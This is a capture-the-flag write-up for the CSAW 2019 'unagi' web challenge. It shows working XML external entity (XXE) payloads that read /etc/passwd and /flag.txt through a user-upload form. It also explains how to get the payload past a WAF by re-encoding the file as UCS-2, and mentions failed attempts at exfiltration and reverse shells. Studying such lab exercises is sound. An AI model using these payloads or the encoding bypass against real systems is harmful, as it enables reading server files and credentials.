 # CSAW CTF'19 Quals – unagi

* **Category:** Web Exploitation
* **Points:** 200

## Challenge

>come get me
>
>http://web.chal.csaw.io:1003

## Note
I write most of the writeups for this repo, so I decided to post my writeups for this CTF here as well. I did *not* compete under PentaHex for CSAW Quals, but since nobody else on PentaHex did either I'm posting my writeups here. -Drakon

## Solution


This was an adventure. Hours spent looking through PHP man pages just to realize that I'm stupid.

The webpage is pretty simple: We have a "home" page, a "user" page, an "upload" page, and an "about" page.

The homepage doesn't give us that much. About tells us where the flag is, but otherwise there's not much to see.

User is more interesting - there's two users with various fields filled in.

![The users page](./users.png?raw=true "The users page")

Take a good look at the fields. These are really important, and will come in useful later.

The upload page lets us upload users in the form of an XML file. Format is as follows:
```
<users>
	<user>
		<username>alice</username>
		<password>passwd1</password>
		<name>Alice</name>
		<email>alice@fakesite.com</email>
		<group>CSAW2019</group>
	</user>
	<user>
		<username>bob</username>
		<password>passwd2</password>
		<name> Bob</name>
		<email>bob@fakesite.com</email>
		<group>CSAW2019</group>
	</user>
</users>
```

Our first thought is some form of XXE. We write up a quick payload, and try submitting:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////etc/passwd" >
]>                                                          
<users>
	<user>
		<username>VeryCreativeUsername</username>
		<password>VeryCreativePassword</password>
		<name>Drakon</name>
		<email>&xxe;</email>
		<group>SeeSawTwoThousandNineteen</group>
	</user>
</users>
```
![uh oh](./WAFBlocked.png?raw=true "Uh oh")

The WAF won't let us upload the inject. Some quick research reveals that some WAFs aren't able to handle multiple encodings. We change our file from UTF-8 to UCS-2 BE BOM, and try again.

![Yay!](./WAFSuccess.png?raw=true "Yay!")

It works! Kind of. The output is truncated for some reason - both /etc/passwd and our group name are brought down to 20 characters. No problem though, the flag probably isn't that long. Right?

![You thought](./whyMe.png?raw=true "You thought")

Nope. The flag.txt file is padded a bunch. Looks like we're gonna have to figure out how to get just the flag.

I stop here to think: "Maybe I can somehow find a field that doesn't have this character limit?" I ignore myself.

Queue 4 hours of research into reverse shells, RCE, and PHP wrappers. I tried exfiltrating the data to an external server (threw an error), executing code with the expects module (it wasn't installed), and encoding the data (only thing that worked was base64, which frankly didn't do much).

Remember the users page earlier?

There's one field that we don't see in our XML. "Intro".

Hopefully the character limit for the intro field should be bigger. We guess that the element name is "intro", and write a new exploit.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///flag.txt" >
]>                                                          
<users>
	<user>
		<username>VeryCreativeUsername</username>
		<password>VeryCreativePassword</password>
		<name>Drakon</name>
		<email>yahoo@gmail.org</email>
		<group>BentaBex</group>
		<intro>&xxe;</intro>
	</user>
</users>
```
![It actually worked.](./youMustBeKidding.png?raw=true "It actually worked.")

It worked. As simple as that. No need to upload a reverse shell, or run any commands. No need to compress the string so that it fits in 20 characters. No PHP wrapper black magic.

I want to die.

```
flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts} 
```